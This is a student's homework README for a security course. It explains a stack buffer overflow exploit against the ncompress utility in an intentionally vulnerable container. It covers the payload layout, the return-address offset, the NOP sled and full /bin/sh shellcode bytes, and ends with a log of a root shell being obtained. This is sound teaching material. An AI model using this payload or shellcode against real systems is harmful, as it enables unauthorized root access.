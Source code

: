 # Homework #0
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150)

*For the second part of Homework #0 ("Running our first devsecops pipeline") check the `successful_run.txt` file or visit the public repository directly:
https://github.com/sdi2000150/devsecops-pipeline*
## Our first exploit: Control flow hijack with shellcode injection

This readme details how the buffer overflow exploit was crafted and executed against the vulnerable `compress42.c` program (`ncompress` executable). The objective was to overflow the buffer in the `comprexx()` function and hijack the control flow to execute our shellcode, which spawns a root shell.


## Overview

The vulnerable program contains a function `comprexx()` which is being called when `ncompress` is called like this:
```
~$ ncompress arg
```
, where arg is a string (character array) representing the file path for processing. `comprexx()` allocates a local buffer (`tempname`) of size `MAXPATHLEN` (1024 bytes). By overflowing this buffer with a carefully structured payload, I can overwrite the function's return address, redirect execution into a NOP sled, and eventually run our shellcode.

The payload is constructed with the following layout:
- **Junk Data:** Fills the buffer until the return address.
- **Return Address:** Overwrites the original return address to point somewhere into the NOP sled.
- **NOP Sled:** A series of NOP instructions (`\x90`) that provide a sled landing in the shellcode.
- **Shellcode:** Assembly instructions that execute a root shell.


## Payload Construction

My Python script (exploit.py) constructs the payload step-by-step:<br>
*(exploit.py is also full of comments describing these steps)*

1. **Junk Data:**  
    The exploit uses 1072 bytes of data to overflow the buffer until the return address. Through iterative testing (observing segmentation faults and checking with `dmesg`), I determined that 1072 bytes are required. I then use 1068 bytes of junk so that the last 4 bytes exactly overwrite the return address itself.
    ```python
    payload += b"A" * 1068
    ```
2. **Overwriting the Return Address:**
    The next 4 bytes overwrite the return address. I use as address the value SP (Stack Pointer) had at the time of the segfault during the testing with junk data. An offset (here, 12000) is added to the SP value so that the exploit has more possibilities to work in different environments.
    ```python
    payload += struct.pack("<I", 0xffff7fb0 + 12000)
    ```

3. **NOP Sled:**
    A large NOP sled of 24000 bytes (NOPs) is added. This increases the likelihood that the overwritten return address will redirect execution into the NOP sled, eventually sliding into our shellcode.
    ```python
    payload += b"\x90" * 24000
    ```
4. **Shellcode:**
    The shellcode spawns a shell as root and is appended at the end of the payload. This is the same shellcode used at class paradigms.
    ```python
    payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

## Exploitation Process

1. **Vulnerability Analysis:**
    The source code of ncompress (compress42.c) shows that thecomprexx() function uses a local buffer of fixed size (1024bytes). Overflowing this buffer allows us to overwrite thereturn address on the stack.

2. **Determining the position of the return address:**
    I tested the exploit with increasing junk data until a segmentation fault occurred (starting with 1024 A's and going up). While segfault started to happen, using dmesg, the IP (Instruction Pointer) should be overwritten with 41414141 (the hexadecimal representation of "AAAA"). The moment this happened was at 1072 bytes (A's), so I concluded that at 1068 byte the return address was placed, and this is where I should overwritte it with my own return address.

3. **Crafting the Payload:**
    The payload layout ensures that the overwritten return address points into the large NOP sled, allowing the program execution flow to "slide" into the shellcode. The shellcode then executes, spawning a shell with root privileges.

4. **Launching the Exploit:**
    The payload is saved (for example, in a file named payload). The exploit is launched by giving the payload as an argument into the `ncompress` program.

A successful invocation follows (where `...` there were many A's and �'s respectively):

```
teomor@teomor-ThinkPad-Ubuntu:~$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@7461aee61d58:~$ echo hello | ncompress
��hʰa�Fubuntu@7461aee61d58:~$ python3 /exploit.py > payload
ubuntu@7461aee61d58:~$ whoami
ubuntu
ubuntu@7461aee61d58:~$ ncompress `cat payload`
AAAA...AAAA����...����1�Ph//shh/bin����°
                                                                                      ̀1�@̀: File name too long
# whoami
root
# 
```
